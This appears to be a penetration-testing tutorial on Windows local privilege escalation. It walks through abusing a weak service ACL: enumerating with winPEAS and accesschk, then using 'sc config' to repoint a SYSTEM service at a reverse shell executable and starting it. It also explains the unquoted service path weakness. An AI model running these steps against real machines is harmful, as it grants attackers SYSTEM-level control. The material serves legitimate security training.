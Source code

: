 ## Insecure Service Permissions

Each service has an ACL which defines certain service-specific permissions.

Some permissions are innocuous (e.g. SERVICE_QUERY_CONFIG, SERVICE_QUERY_STATUS).

Some may be useful (e.g. SERVICE_STOP, SERVICE_START).

Some are dangerous (e.g. SERVICE_CHANGE_CONFIG, SERVICE_ALL_ACCESS)

If our user has permission to change the configuration of a service which runs with SYSTEM privileges, we can change the executable the service uses to one of our own.

> Potential Rabbit Hole: If you can change a service configuration but cannot stop/start the service, you may not be able to escalate privileges!

### Privilege Escalation
1. Run winPEAS to check for service misconfigurations:
```
.\winPEASany.exe quiet servicesinfo
```
2. Note that we can modify the “daclsvc” service.
3. We can confirm this with accesschk.exe:
```
.\accesschk.exe /accepteula -uwcqv user daclsvc
```
4. Check the current configuration of the service:
```
sc qc daclsvc
```
5. Check the current status of the service:
```
sc query daclsvc
```
6. Reconfigure the service to use our reverse shell executable:
```
sc config daclsvc binpath="\"C:\PrivEsc\reverse.exe\""
```
7. Start a listener on Kali, and then start the service to trigger the exploit:
```
net start daclsvc
```

## Unquoted Service Path
Executables in Windows can be run without using their extension (e.g. “whoami.exe” can be run by just typing “whoami”).

Some executables take arguments, separated by spaces, e.g. someprog.exe arg1 arg2 arg3…

This behavior leads to ambiguity when using absolute paths that are unquoted and contain spaces.

Consider the following unquoted path:
C:\Program Files\Some Dir\SomeProgram.exe
To us, this obviously runs SomeProgram.exe. To Windows, C:\Program could be
the executable, with two arguments: “Files\Some” and “Dir\ SomeProgram.exe”
Windows resolves this ambiguity by checking each of the possibilities in turn.
If we can write to a location Windows checks before the actual executable, we
can trick the service into executing it instead.

